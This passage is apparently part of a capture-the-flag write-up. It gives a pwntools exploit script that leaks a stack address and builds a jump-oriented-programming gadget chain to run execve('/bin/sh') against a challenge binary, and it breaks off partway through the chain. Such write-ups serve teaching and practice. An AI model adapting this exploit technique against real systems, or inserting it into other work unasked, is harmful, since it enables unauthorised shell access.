 ### Exploit

```python
#!/usr/bin/env python3

from pwn import *

elf = context.binary = ELF('./dist/jop')

if args.REMOTE:
    p = remote('chals.ctf.sg', 20101)
else:
    p = elf.process()

eip_offset = 256

xchg_rax_rdi_jmp_rax_1 =        0x401000  # xchg rax, rdi; jmp qword ptr [rax + 1];
xor_rax_rax_jmp_rdx =           0x40100a  # xor rax, rax; jmp qword ptr [rdx];
pop_rsp_rdi_rcx_rdx_jmp_rdx_1 = 0x40100f  # pop rsp; pop rdi; pop rcx; pop rdx; jmp qword ptr [rdi + 1];
mov_rsi_rcx_jmp_rdx =           0x40101b  # mov rsi, qword ptr [rcx + 0x10]; jmp qword ptr [rdx];
pop_rdx_jmp_rcx =               0x401021  # pop rdx; jmp qword ptr [rcx];
add_rax_rdx_jmp_rcx =           0x401024  # add rax, rdx; jmp qword ptr [rcx];
pop_rcx_jmp_rdx =               0x401029  # pop rcx; jmp qword ptr [rdx];
syscall =                       0x401163  # syscall;
ret =                           0x401165  # add rsp, 0x8; jmp [rsp-0x8];

# Leak the stack base
p.sendlineafter('> ', '4')
rsp = u64(p.recvn(8)) - 0x100
log.success(f"rsp @ {hex(rsp)}")

# Build dispatch table and setup initial dispatch registers
payload = b'/bin/sh\x00'                    # [0x00] (rsp base)
payload += p64(ret)                         # [0x08]
payload += p64(0x00)                        # [0x10]

payload += p64(rsp + context.bytes*1 - 0x1) # [0x18] (rdi)
payload += p64(rsp + context.bytes*1)       # [0x20] (rcx)
payload += p64(rsp + context.bytes*1)       # [0x28] (rdx)

# Set rdi = &'/bin/sh'                      (xor rax, rax; pop rdx; add rax, rdx; xchg rax, rdi; ret)
payload += p64(xor_rax_rax_jmp_rdx)         # [0x30]
payload += p64(pop_rdx_jmp_rcx)             # [0x38]
payload += p64(rsp)                         # [0x40]
payload += p64(add_rax_rdx_jmp_rcx)         # [0x48]
payload += p64(xchg_rax_rdi_jmp_rax_1)      # [0x50]

# Reset rdx
payload += p64(pop_rdx_jmp_rcx)             # [0x58]
payload += p64(rsp + context.bytes*1)       # [0x60]

# Set rsi = 0x00                            (pop rcx; mov rsi, [rcx+0x10]; ret)
payload += p64(pop_rcx_jmp_rdx)             # [0x68]
payload += p64(rsp + context.bytes*2)       # [0x70]
payload += p64(mov_rsi_rcx_jmp_rdx)         # [0x78]

# Reset rcx
payload += p64(pop_rcx_jmp_rdx)             # [0x80]
payload += p64(rsp + context.bytes*1)       # [0x88]

# Set rax = SYS_execve                      (xor rax, rax; pop rdx; add rax, rdx; ret)
```